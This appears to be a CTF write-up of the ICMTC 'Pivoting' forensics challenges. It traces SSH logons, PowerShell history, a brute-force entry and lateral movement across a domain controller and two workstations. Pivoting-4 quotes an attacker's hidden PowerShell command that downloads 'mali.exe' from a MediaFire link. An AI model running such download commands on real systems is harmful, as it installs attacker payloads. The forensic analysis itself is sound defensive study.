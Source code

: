 ```yaml
---
title: ICMTC CTF - Pivoting[1-9]
author: NourhanYousef
classes: wide
ribbon: red
header:
  teaser: /assets/images/icmtc-logo.png 
date: 2023-07-3 17:00:00 +0800
categories: CTF
description: "ICMTC CTF Digital Forensics pivoting challenges from 1 to 9..."
toc: true
---
```


**provided folders** : DC01, Workstation_1, workstation_2

**Used tools**: Event Viewer , registry explorer

---

# **Pivoting-1**

Q → What was the protocol used to logon to DC01?

in DC01 → eventlogs → logs

![Untitled](/assets/images/Pivoting/Untitled.png)

Upon analyzing the ***security*** logs file of **DC01** and filtering for Event ID 4624 (Logon Success) and 4648 (Logon with Explicit Credentials). During this examination, it was observed that the process "sshd.exe" was associated with these logon events. sshd.exe is the process responsible for facilitating SSH connections on the system. 

![Untitled](/assets/images/Pivoting/Untitled%201.png)

Flag ⇒ `EGCERT{SSH}`

---

# **Pivoting-2**

Q → What was the full path of the malicious downloaded file on Workstation_1?

In the ***workstation_1*** environment, within the **PowerShell →** **PSReadline,**  An analysis of the PowerShell activity revealed the presence of a script contained within a text file called ***ConsoleHost_history*** . the script downloads a file **axt_1.py** in C:\Program Files

flag ⇒ `EGCERT{C:\Program Files\atx_1.py}`

---

# **Pivoting-3**

Q → What is the name of the malicious executable that was downloaded on DC01?

exploring **DC01** ***windows PowerShell*** event logs I found a PowerShell script that downloads a file called mali.exe

![Untitled](/assets/images/Pivoting/Untitled%202.png)

flag ⇒ `EGCERT{mali.exe}`

---

# **Pivoting-4**

What was the command used to download the malicious executable on DC01? 

In the previous screenshot, a command was observed that indicates the downloading of a potentially malicious executable file. 

![Untitled](/assets/images/Pivoting/Untitled%203.png)

flag:

```php
EGCERT{powershell.exe -w hidden -noni -nop -exec EX [https://www.mediafire.com/file/3bytgnxqzimrns0/mali.exe](https://www.mediafire.com/file/3bytgnxqzimrns0/mali.exe)C:\Users\Administrator\Desktop\mali.exe}
```

---

# **Pivoting-5**

Q→ What was the technique used to access Workstation_2?

a significant number of failed logon attempts were identified. These logon attempts originated from a workstation named "kali" indicating that it was engaged in a brute force attack against workstation_2.

![Untitled](/assets/images/Pivoting/Untitled%204.png)

flag ⇒ `EGCERT{brute force}`

---

**Pivoting-6**

Q→ What was the entry point to the system? Note: Write the IP of the machine.

conducting the brute force attack on workstation_2 makes it seems to be the entry point of attack.  examining the registry of workstation_2 it would be found that in key **`SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces`** which contains network interface configurations and settings for the TCP/IP protocols 

looking at `subkey {7f91008d-beb6-41c6-9c5e-ade2ccbd964d}` I found `DhcpIPAddress` which  represents the IP address assigned to a network interface through DHCP

  

![Untitled](/assets/images/Pivoting/Untitled%205.png)

flag ⇒ `EGCERT{192.168.118.155}`

---

# **Pivoting-7**

Q→ Using the names (DCO1, Workstaion_1, Workstation_2),State the lateral movement sequence

as we found before, workstation_2 is the entry point, the next machine could be  Workstaion_1 or DC01, it’s more logical that Workstaion_1 is the next machine to move laterally then DC01

flag ⇒ `EGCERT{Workstation_2,Workstation_1,DC01}`

---